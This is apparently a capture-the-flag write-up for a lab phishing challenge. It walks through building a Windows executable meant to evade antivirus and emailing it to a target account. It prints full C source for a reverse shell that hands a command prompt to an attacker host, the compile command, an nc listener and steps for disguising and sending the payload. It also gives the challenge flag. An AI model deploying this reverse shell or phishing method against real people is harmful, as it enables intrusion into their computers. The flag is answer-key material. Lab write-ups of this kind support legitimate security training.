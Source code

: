 # Shadow Phishing 2

## Challenge Description
> ![image](https://github.com/user-attachments/assets/58ea1407-3af8-4c52-a498-b2a6e8c8859f)

## Solution
This challenge builds upon the previous **Shadow Phishing** task.

We begin by accessing the webmail interface at:
`http://10.10.201.221/`

Using the provided credentials:
`Username: shadowbyte@darknetmail.corp`
`Password: ShadowIsTheBest`

This logs us into ShadowByte's email account. Our objective is to craft and deliver a malicious Windows 10 x64 executable that can bypass antivirus detection, targeting Cipher (cipher@darknetmail.corp).

![image](https://github.com/user-attachments/assets/d7895a59-cecd-4f3e-a345-08aaeb86ac1c)

A quick Google search suggests that a good approach to evade Windows Defender is to use a NIM Reverse Shell.

![image](https://github.com/user-attachments/assets/1ccccd5b-2945-4b16-843a-9a35680c658f)

To set up a Nim reverse shell development environment on Kali Linux, first install the MinGW-w64 cross-compiler using `sudo apt install mingw-w64` to enable Windows executable compilation. Next, clone the Nim reverse shell repository with `git clone https://github.com/Sn1r/Nim-Reverse-Shell` to access the project files. For the Nim language installation, follow the comprehensive guide at [Jonathan Turnock's Nim Tutorial](https://jonathanturnock.github.io/nim-tutorials/docs/linux-installation), which provides reliable installation methods including using the official `choosenim` installer (`curl https://nim-lang.org/choosenim/init.sh -sSf | sh`) and adding Nim to your PATH. This approach ensures you have all necessary components configured properly for compiling both Linux and Windows versions of the reverse shell. After installation, verify everything works by checking versions with `nim --version` and `x86_64-w64-mingw32-gcc --version`, then proceed to build the payload using the Nim's compiler commands.

However, the initial attempt to deploy the reverse shell was unsuccessful because the compiled executable failed to transfer to the target system. 

A writeup on [tjf952's GitBook](https://tjf952.gitbook.io/disboard/try-hack-me/hackfinity#shadow-phishing-2) provided a working C reverse shell example.
```
#include <winsock2.h>
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32")

#define SERVER "<REDACTED>"
#define PORT 4444

void ReverseShell() {
	WSADATA wsa;
	SOCKET sock;
	struct sockaddr_in server;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	char recvData[1024];

	WSAStartup(MAKEWORD(2,2), &wsa);
	sock = WSASocket(AF_INET, SOCK_STREAM, 0, NULL, 0, 0);
	server.sin_family = AF_INET;
	server.sin_addr.s_addr = inet_addr(SERVER);
	server.sin_port = htons(PORT);

	connect(sock, (struct sockaddr *)&server, sizeof(server));

	memset(&si, 0, sizeof(si));
	si.cb = sizeof(si);
	si.dwFlags = STARTF_USESTDHANDLES;
	si.hStdInput = (HANDLE)sock;
	si.hStdOutput = (HANDLE)sock;
	si.hStdError = (HANDLE)sock;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}

int main() {
	ReverseShell();
	return 0;
}
```

> [!NOTE]  
> ### Steps to Generate the Malicious Windows Executable bypass Windows Defender
> 1. To create our payload, we use  x86_64-w64-mingw32-gcc
>    
>    ```
>    x86_64-w64-mingw32-gcc -o revshell.exe revshell.c -static -lws2_32
>    ```

![image](https://github.com/user-attachments/assets/337df024-10ec-4e4d-b70f-acc691ea4f7d)

To receive a connection when the target opens the malicious executable, we used rlwrap:
> [!NOTE]  
> ### Setting Up a Listener
> 1. Open a terminal and setup listener:
>    
>    ```
>    rlwrap nc -lvnp 4444
>    ```
  
Now, when the target opens the executable, we will receive a reverse shell.

The next step is to send the phishing email.
> [!NOTE]
> ### Sending the Phishing Email
> 1. Log into the webmail interface.
> 2. Compose a new email addressed to cipher@darknetmail.corp.
> 3. Attach the malicious executable (renaming it to something convincing like SilentEdgeInstaller.exe).
> 4. Write a persuasive message to encourage the recipient to open the document.
> 5. Send the email.

Once the target opens the document, our reverse shell should trigger within ~2 minutes.

After some time, we receive a reverse shell, confirming that Cipher has executed the payload:

![image](https://github.com/user-attachments/assets/8326be7b-9020-47c1-bcb3-ba98910cb3b8)

We navigated to the Administrator’s Desktop:
```
C:\Windows\system32 > cd c:/users/Administrator/Desktop
c:/users/Administrator/Desktop > dir
```
We retrieved the flag:
```
c:/users/Administrator/Desktop > type flag.txt
THM{3m41l_ph1sh1ng_1s_n0t_s0_3z}
```

## Conclusion
This challenge showcases the real-world impact of phishing combined with antivirus evasion techniques. By crafting a Windows executable that bypasses Defender, we successfully compromised the target system through a seemingly benign email and retrieve the flag.

## Flag
THM{3m41l_ph1sh1ng_1s_n0t_s0_3z}
